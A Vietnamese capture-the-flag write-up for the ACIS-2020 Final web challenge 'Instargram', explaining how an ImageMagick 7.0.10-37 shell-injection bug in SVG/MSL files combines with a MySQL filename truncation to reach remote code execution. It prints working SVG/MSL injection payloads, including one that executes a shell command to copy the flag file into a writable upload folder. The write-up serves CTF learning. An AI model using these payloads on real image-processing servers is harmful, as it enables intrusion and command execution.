 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Final] Web02: Instargram"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,php,imagemagick]
---
```


# [ACIS-2020-Final] Sinh viên với An Toàn Thông Tin ASEAN 2020 Final Web Writeup

# Instargram

## Description

- Source: [Instargram](src)
- ImageMagick version: `7.0.10-37`
- Hints:
  1.  `Magic!!!`
  2.  `ducnt / @bcd1234`

![img1](img/img1.png)

## Summary

Website cho phép đăng ký, đăng nhập, thay đổi avatar. Khi thay đổi avatar sẽ gọi đến lệnh `convert` từ system (**Imagemagick**) để chuyển đổi ảnh. Kết hợp lỗi [ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) và **SQL Truncation Attack** khai thác thực thi mã từ xa (**RCE**).

## Analysis

### Upload

Những file upload lên server phải thỏa mãn những yêu cầu, đặc điểm sau:
1. Size <= `500000`
2. Thư mục lưu trữ của mỗi user là bí mật:
  ```php
  function gen_secret_path($username) {
      $secret_path = "images/avatars/".md5(SALT.$username)."/";
      return $secret_path;
  }
  $secret_path = gen_secret_path($username);
  ...
  $target_file = $secret_path . $avatar;
  ```
3. File type phải là: `JPG, JPEG, PNG, SVG && GIF`

### Convert

Khi upload avatar, server sẽ tạo 1 bản copy của file nhằm chuyển đổi sau đó. 
  ```php
    if( $count2 === 1 && $row['username'] === $username) 
    {
        $_prepare_for_convert = $secret_path.$row2['for_convert'];
        copy($target_file, $_prepare_for_convert);
    }
  ```

Tên của file convert này được thêm suffix: `-InStarGram-HackEmAll2020.png`
```php
function watermark($string) {
    return $string."-InStarGram-HackEmAll2020";
}
$_for_convert = trim($filename,".".$extension);
$_for_convert =  $_for_convert.".".$extension.watermark("").".png";
```
- Ví dụ: `shell.php.jpg` -> `shell.php.jpg-InStarGram-HackEmAll2020.png`

Khi đã upload lên server, server sẽ sử dụng **Imagemagick** để chuyển đổi ảnh
```php
  $_orignal_image = $row['for_convert'];
  $_orignal_image = $secret_path.$_orignal_image;
  $_orignal_image = superwaf($_orignal_image);
  $_convert_image = superwaf($_convert_image);
  $_beautify_image = "convert -level 0%,100%,2.0 ".$_orignal_image." ".$_convert_image;
  system($_beautify_image);
```
- *`superwaf()` giúp bảo vệ **Command Injection***
  ```php
  function superwaf($data) {
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    $data = escapeshellcmd($data);
    return $data;
  }
  ```

## Exploit

### ImageMagick Bug

- ImageMagick change log:
![img2](img/img2.png)
- Tìm ...  
![img3](img/img3.png)
- Và [đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) là bài phân tích chi tiết lỗi, cũng như cách exploit. Nó được đăng vào **November 21, 2020**. Vậy là đề được lấy cảm hứng từ 1 bug mới được public cách ngày thi 1 tuần ...

**Tóm lược**, ImageMagick cho phép sử dụng mật khẩu khi chuyển đổi PDF thông qua option `-authenticate`. Option này được dùng trong việc gọi một command khác, và nó không được làm sạch an toàn. Đồng nghĩa, việc kiểm soát thành công `-authenticate` sẽ dẫn đến **RCE**. Tuy nhiên điều này không phải lúc nào cũng khả thi (như trong bài này). May mắn thay, ImageMagick còn hỗ trợ **ImageMagick Scripting Language (MSL)** thông qua 1 file input **svg**, có thể truyền thẳng option bên trong nội dung file. Chi tiết hơn có thể xem [tại đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

**Quay lại với đề bài**, như vậy, nếu upload 1 file **SVG**, khi server gọi `convert evil.svg whatever.jpg`, thì `$(command)` sẽ được thực thi.

```html
<image authenticate='ff" `echo $(command)`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Tuy nhiên, `for_convert` được thêm suffix `-InStarGram-HackEmAll2020.png` nên không thể upload file **svg** được?

### SQLi Truncation Attack

Độ dài trường **for_convert** là **100**, vì vậy có thể tận dụng để truncate phần suffix của tên file.

```
CREATE TABLE `converts` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) DEFAULT NULL,
  `for_convert` varchar(100) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
```

Vậy tên file cần có dạng:
```php
$filename = str_repeat("a",96).".svg"
```

Lúc này, nếu tiến hành chạy reverse shell hay outbound thì sẽ nhận ra server đã chặn. Vậy cần phải extract output command ra đâu đó, ra file? Nhưng chỉ có thư mục upload là có quyền ghi và như đã trình bày, đường dẫn thư mục upload của mỗi user là bí mật.

*Đây cũng là lý do không dùng cách upload file php (dùng truncation attack) để lên shell được*

### Có điều gì đó đã bị bỏ qua ...?

Quay lại source code được cung cấp, tại `images/avatars/`:
![img4](img/img4.png)

**978581028bb6f432c5a3a7694e8dad32**?. Một gợi ý của đề để lại, thư mục upload của user **ducnt** với mode `0777`. Như vậy, đã tìm được nơi ghi output của command.

## Final Payload

- Filename: **aa...aa.svg** (length == 100)
- Payload
```html
<image authenticate='ff" `echo $(cat /flag.txt)> ./images/avatars/978581028bb6f432c5a3a7694e8dad32/doublevkay.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:./images/avatars/978581028bb6f432c5a3a7694e8dad32/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.svg" height="100" width="100"/>
  </svg>
</image>
```

Truy cập lại `/account.php` để kích hoạt `convert` và get flag.

![flag](img/flag.png)
![a](img/img5.jpg)

**Flag:**

```ASCIS{amayzing-goodjob-em:https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html-(ft)-mysql-truncation}```

## Không liên quan

Thừa nhận hay không thì mình vẫn là một mắt xích yếu, sr my team!.

Và, yoh, hơi sến xíu nhưng thực sự cảm ơn những người anh đã giúp đỡ em trong chặng đường học cyber sec này, rất ý nghĩa! (và chắc còn dài =)))

Btw, chúc mừng team **HCMUS.Twice** - một chức vô địch xứng đáng. Cuộc thi là một trãi nghiệm rất thú vị, thanks all và ... hẹn gặp lại.
